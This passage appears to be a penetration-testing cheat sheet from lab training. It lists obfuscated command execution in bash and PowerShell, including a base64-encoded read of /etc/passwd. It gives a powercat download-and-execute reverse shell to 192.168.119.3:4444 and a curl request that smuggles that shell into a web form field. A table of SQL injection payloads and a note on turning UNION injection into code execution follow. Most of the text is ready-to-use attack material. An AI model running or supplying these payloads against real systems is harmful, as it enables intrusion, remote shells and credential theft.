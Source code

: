 		peluqqi@htb[/htb]$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
		```
		```powershell-session
		PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
		dwBoAG8AYQBtAGkA
		
		PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
		```

Snippet to detect CMD or Powershell in Windows systems

```shell
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

If Powershell is available, we can use powercat.ps1 (Powercat is a PowerShell implementation of Netcat included in Kali) and python server

```shell
Command to trigger:
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 

Command injection:
curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.119.3%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.119.3%20-p%204444%20-e%20powershell' http://192.168.50.189:8000/archive
```

### SQL Injection Attacks

> **Notes:**
> * Union-based payloads has to include the same number of columns as the original query and the data types need to be compatible between each column
> * **Useful Info to retrieve:**
> 	* `@version / database() / user()`
> 	* `SELECT table_name, column_name, table_schema FROM information_schema.columns WHERE table_schema=database()`
> * We can specify php code in a Union-based SQLi and output to a file, then trigger it to gain RCE

| **SQLi Discovery** |                |
| ------------------ | -------------- |
| **Payload**        | **URL Encode** |
| `'`                | `%27`          |
| `"`                | `%22`          |
| `#`                | `%23`          |
| `;`                | `%3B`          |
| `)`                | `%29`          |

| **Payloads**                                                                                                                             | **Description**                                                                                                                                                                                                        |
| ---------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `'`                                                                                                                                      | Special characters. If any of them throws an error could mean SQL Injection is possible                                                                                                                                |
| `' OR 1=1 -- //`                                                                                                                         | Basic injection                                                                                                                                                                                                        |
| `' AND 1=1 -- //`                                                                                                                        | **Boolean-based** SQLi. Since _1=1_ will always be TRUE, the application will return the values only if the user (or whatever field we have filled) is present in the database                                         |
| `' AND IF (1=1, sleep(3),'false') -- //`                                                                                                 | **Time-based** SQLi. IF condition will always be true inside the statement itself, so it will return false if the user is non-existent                                                                                 |
| **Error-based payloads**                                                                                                                 | **Description**                                                                                                                                                                                                        |
| `' or 1=1 in (select @@version) -- //`                                                                                                   | If it returns the version, querying the database interactively is possible, so we can run queries like this. If we receive an error specifying the number of columns we can filter the query to return just one column |
| `' or 1=1 in (select table_name, column_name, table_schema FROM information_schema.columns WHERE table_schema=database()) -- //`         | Query db info                                                                                                                                                                                                          |